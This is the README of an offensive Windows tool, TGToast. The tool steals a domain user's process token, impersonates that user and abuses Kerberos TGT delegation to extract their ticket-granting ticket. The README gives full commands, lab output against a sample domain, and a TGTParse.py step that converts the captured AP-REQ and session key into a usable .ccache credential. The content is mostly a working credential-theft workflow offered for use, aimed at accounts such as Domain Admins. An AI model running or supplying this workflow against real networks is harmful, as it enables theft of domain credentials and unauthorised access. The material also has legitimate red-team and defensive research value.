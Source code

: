 # TGToast

```
 .\TGToast.exe

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/


Tool to perform TGT delegation abuse, with token stealing capabilities.

Usage: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe <option> [arguments]

Options:
  /list                                 Lists processes from other domain users.
  /steal <PID> <domain> <spn> [/enctype:TYPE]   Steals token, impersonates, and runs tgtdelegation.

  Encryption types (optional): aes256 (default), aes128, rc4

  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local
  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local /enctype:aes256

```
## Purpose
The goal is to *impersonate* a user who is connected to a machine that is controlled by an attacker and recover their TGT. You need *elevated privileges* on the host.

First, we will steal a token from another user (for example some juicy *Domain Admins*). Then, we will use the *TGTDeleg technique*, which abuses the Kerberos GSS-API to retrieve a usable TGT for the current user. Next, *AcquireCredentialsHandle()* is used to retrieve the user's Kerberos security credentials. Then, *InitializeSecurityContext()* is called with the ISC_REQ_DELEGATE flag and a target SPN (such as HOST/DC.domain.com) to prepare a delegation context to be sent to the DC. This results in an AP-REQ in the GSS-API output containing a KRB_CRED structure in the authenticator field that includes the TGT.

## Usage
### List
```
./TGToast.exe /list

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[*] Current User: NORTH\eddard.stark
[*] Searching for processes belonging to other DOMAIN users...

PID    | User                                     | Process Name
----------------------------------------------------------------------------
2944   | NORTH\robb.stark                         | sihost.exe
596    | NORTH\robb.stark                         | svchost.exe
3080   | NORTH\robb.stark                         | taskhostw.exe
3272   | NORTH\robb.stark                         | ctfmon.exe
3524   | NORTH\robb.stark                         | explorer.exe
3760   | NORTH\robb.stark                         | ShellExperienceHost.exe
3840   | NORTH\robb.stark                         | SearchUI.exe
3956   | NORTH\robb.stark                         | RuntimeBroker.exe
4068   | NORTH\robb.stark                         | RuntimeBroker.exe
3120   | NORTH\robb.stark                         | RuntimeBroker.exe
968    | NORTH\robb.stark                         | smartscreen.exe
4860   | NORTH\robb.stark                         | mstsc.exe
```

### TGToasting
```
./TGToast.exe /steal 3524 north.sevenkingdoms.local CIFS/winterfell.north.sevenkingdoms.local

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[+] SeDebugPrivilege enabled.
[*] Attempting to steal token from PID 3524...
[+] Successfully stole token from user: NORTH\robb.stark
[*] Successfully impersonating user. Now attempting TGT delegation abuse...
----------------------------------------------------------------------------
[+] Target Domain (for reference): north.sevenkingdoms.local
[+] Target SPN: CIFS/winterfell.north.sevenkingdoms.local
[+] Successfully obtained a handle to the current credentials set!
[+] Successfully initialized the Kerberos GSS-API!
[+] The delegation request was successful! AP-REQ ticket is now in the GSS-API output.
[+] Successfully invoked LsaCallAuthenticationPackage! The Kerberos session key should be cached!

[+] AP-REQ output:
YI...(snip)...91pPYw==

[+] Kerberos session key:
Ab1lnjT...(snip)...pEcFY=

[+] Encryption:
AES256

[+] tgtdelegation succeeded under impersonated context!
----------------------------------------------------------------------------
[*] TGT delegation attempt finished. Reverting to original identity.
```

## Extract TGT
You can use TGTParse.py code to extract the TGT from the AP-REQ using the session key.
The TGTParse.py code was a refactor of the version available on Github : [https://github.com/connormcgarr/tgtdelegation/tree/master/tgtParse](https://github.com/connormcgarr/tgtdelegation/tree/master/tgtParse) by Connor McGarr (@33y0re).
```
python TGTParse.py  --sessionkey W0612fo...(snip)...43JYdqc= --apreq YIINBwYJKoZIh...(snip)...vcSAQICAysc3 --etype AES256

[+] Identified ticket for robb.stark@NORTH.SEVENKINGDOMS.LOCAL
[+] Successfully extracted the TGT! Saved as: robb.stark@NORTH.SEVENKINGDOMS.LOCAL.ccache!
[*] Local path to usable .ccache: /home/wuentin/Desktop/TGToast/robb.stark@NORTH.SEVENKINGDOMS.LOCAL.ccache
[*] Usage: export KRB5CCNAME=/home/wuentin/Desktop/TGToast/robb.stark@NORTH.SEVENKINGDOMS.LOCAL.ccache

```

### Usage
```
# Create virtual environment
python3 -m venv tgtparse-env

# Activate virtual environment
source tgtparse-env/bin/activate 

# Install dependencies
pip install impacket pyasn1

# Run the tool
python3 tgtParse.py --apreq <BASE64_APREQ> --sessionkey <BASE64_KEY> --etype <AES256|AES128|RC4>
```
## Limits
There are a few limitations, it doesn't work if the target accounts are:
- member of protected users;
- account is sensitive and cannot be delegated.

## Credits
Many thanks to these projects, all I did was put the ideas together.
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs](https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs)
- [https://github.com/connormcgarr/tgtdelegation/tree/master](https://github.com/connormcgarr/tgtdelegation/tree/master)
